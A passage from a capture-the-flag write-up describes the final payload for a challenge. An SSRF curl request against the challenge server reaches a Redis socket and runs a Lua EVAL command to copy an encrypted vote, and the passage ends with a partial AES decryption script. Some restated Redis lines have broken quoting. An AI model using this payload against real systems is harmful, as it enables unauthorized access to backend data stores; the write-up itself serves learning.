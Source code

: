 ### The Final Payload

I spent a while pivoting, I tried to utilise the blog posts exfiltration with `table.concat()`, but I think due to Nginx and SSRF and weird parsing it doesn't work. So the final solve was a much simpler approach:

```bash
$ curl -X EVAL "http://3.105.27.130:8000/api/v1/http://backend.wbc/unix:%2fredis%2fredis.sock:'return%20(redis.call(\"set\",\"img:1337\",redis.call(\"hget\",\"wbc\",\"voted_for\"))\"\")'%200%20/test"
Request failed with status code 502
```

This payload looks complicated but is not (I promise).

The socket is the same as before, and the EVAL too.

We are sending the following command to Redis:

```redis
return (redis.call("set", "img:1337", redis.call("hget", "wbc" "voted_for)))
```

We are essentially grabbing the `voted_for` value and setting it to a general store instead of hashed store (my terminology may be wrong here).

So the final command (sent to Redis) is like this:

```redis
EVAL "return (redis.call("set", "img:1337", redis.call("hget", "wbc" "voted_for)))" 0 .backend.wbc/test HTTP/1.0
Host: localhost
Connection: close
```

Now, we can retrieve `img:1337` and get the encrypted vote for 'wbc':
```bash
$ curl 'http://3.105.27.130:8000/api/img/1337'
nV89mdFKlANlLKX0h4nbBcXqvobH8J75oQJQW93DZl4a1kSYlxZTZBP+iYB+yAM7
```

YAY!

- [x] `wbc`'s certifier
- [x] The `ENCRYPTION_KEY` value
- [x] `wbc`'s encrypted `voted_for` value (containing our flag!)

# Decrypting for profit

This was fairly easy, just replicating the Python script's encryption method but to decrypt instead:

```python
import base64
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import padding

def decrypt_value(key: bytes, encrypted_data: str) -> str:
    backend = default_backend()

    # Decode base64
    encrypted_bytes = base64.b64decode(encrypted_data)

    # Extract IV (first 16 bytes) and ciphertext
    iv = encrypted_bytes[:16]
    ct = encrypted_bytes[16:]

    # Decrypt
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=backend)
    decryptor = cipher.decryptor()
```